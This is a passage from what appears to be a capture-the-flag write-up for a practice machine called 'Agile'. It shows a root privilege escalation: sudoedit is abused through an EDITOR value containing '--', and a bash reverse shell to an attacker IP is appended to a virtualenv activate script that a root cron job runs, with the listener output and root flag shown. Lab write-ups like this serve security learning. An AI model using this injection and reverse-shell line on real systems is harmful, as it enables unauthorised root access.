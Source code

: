 Why is this a problem?  We can  add `--` to our `EDITOR`, which in bash signifies the end of command options. We already know our cron job that runs `test_and_update.sh` will source `/app/venv/bin/activate`.  This file is executed in the current shell context to setup our `PATH` for running python binaries (`pytest`, in this instance). Can we modify this file and add arbitrary code?:

```bash
edwards@agile:/app/venv/bin$ ls -al activate
-rw-rw-r-- 1 root dev_admin 1976 Mar 24 09:30 activate
```

We can see the `activate` script is owned by root and group dev_admin -- the user who we are able to assume privileges as for modifying two particularly files.  Back to setting `EDITOR` -- let's try terminating the command options with `--` within this variable, and running sudoedit:

```bash
EDITOR="vim -- /app/venv/bin/activate" sudoedit -u dev_admin /app/config_test.json
```

Here we're specifying our editor as vim, which will be used as a prefix for the file we are able to edit.. **but**, we're specifying the end of command line flags with `--`, so effectively `/app/venv/bin/activate` will be our first *file* argument.  As a result, we can edit it.

Running the above opened vim with the contents of this file.  I quickly ran `nc -lvnp 3322` on my own machine to establish a netcat listener on TCP port 3322.  At the bottom of the file, I added the following reverse shell:

```bash
bash -i >& /dev/tcp/10.10.14.8/3322 0>&1
```

Then, `:wq` (I think I remember how to quit vim?..).  Running `cat /app/venv/bin/activate` showed my little reverse shell had been persisted to the file (sudoedit writes to a temp file first, then overwrites the original file), so things look promising.

Now we wait, and after a little patience our cron job kicks off, `source`s our modified file which establishes a reverse shell running as root:

```bash
$nc -lvnp 3322
Listening on 0.0.0.0 3322
Connection received on 10.10.11.203 54960
bash: cannot set terminal process group (36640): Inappropriate ioctl for device
bash: no job control in this shell
root@agile:~# ls -la
ls -la
total 76
drwx------  8 root root  4096 Mar  8 15:30 .
drwxr-xr-x 20 root root  4096 Feb 20 23:29 ..
lrwxrwxrwx  1 root root     9 Feb  6 16:56 .bash_history -> /dev/null
-rw-r--r--  1 root root  3106 Dec  1 19:00 .bashrc
drwx------  4 root root  4096 Feb  8 16:29 .cache
drwx------  3 root root  4096 Feb  8 16:29 .config
drwxr-xr-x  3 root root  4096 Feb  8 16:29 .local
-rw-------  1 root root    53 Feb  6 17:14 .my.cnf
drwx------  3 root root  4096 Feb  8 16:29 .pki
-rw-r--r--  1 root root   161 Dec 13 17:59 .profile
drwx------  2 root root  4096 Feb  8 16:29 .ssh
-rw-------  1 root root 14823 Mar  8 15:30 .viminfo
drwxr-xr-x  5 root root  4096 Feb  8 16:29 app
-rwxr-xr-x  1 root root    31 Jan 25 21:02 clean.sh
-rw-r-----  1 root root    33 Mar 24 05:38 root.txt
-rw-r--r--  1 root root  2293 Feb 28 16:50 superpass.sql
-rw-r--r--  1 root root  3274 Feb  6 17:06 testdb.sql
root@agile:~# cat root.txt
cat root.txt
d4a76f6af6ec1bd2249a128031538b41
```
